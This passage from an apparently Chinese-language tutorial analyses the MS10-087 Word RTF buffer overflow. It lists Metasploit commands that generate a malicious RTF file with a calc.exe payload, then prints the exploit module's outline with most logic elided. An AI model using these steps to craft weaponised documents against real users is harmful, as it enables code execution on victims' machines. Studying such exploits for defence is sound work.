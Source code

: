 ```plaintext

View the full module info with the info -d command.
```

使用该模块生成木马 RTF 文件

```sh
msf6 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set target 0
msf6 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set FILENAME Crash.rtf
msf6 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set payload windows/exec 
msf6 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set CMD calc.exe
msf6 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > exploit
```

## Exploit 分析

该模块的 exp 位于

```plaintext
/usr/share/metasploit-framework/modules/exploits/windows/fileformat/ms10_087_rtf_pfragments_bof.rb
```

Exp 的内容为

```ruby
class MetasploitModule < Msf::Exploit::Remote
    Rank = GreatRanking

    include Msf::Exploit::FILEFORMAT
    include Msf::Exploit::Seh

    #* 注册模块元数据信息的初始化函数
    def initialize(info = {})
        super(update_info(info,
            'Name'           => 'MS10-087 Microsoft Word RTF pFragments Stack Buffer Overflow (File Format)',
            'Description'    => %q{...},
            'License'        => MSF_LICENSE,
            'Author'         => ...,
            'References'     => ...,
            'DefaultOptions' => ...,
            'Payload'        => ...,
            'Platform'       => 'win',
            'Targets'        => ...,
            'DisclosureDate' => '2010-11-09',
            'DefaultTarget' => 0))

        register_options(...)
    end

    def add_target(rest, targ)
        ...
    end

    def exploit
        ...
    end

    def sz_rand
    #* 生成一个不是 0，2，4，8 之一的 0 到 8 的随机数 
        bad_sizes = [ 0, 2, 4, 8 ]
        x = rand(9)
        while bad_sizes.include? x
        x = rand(9)
        end
        x
```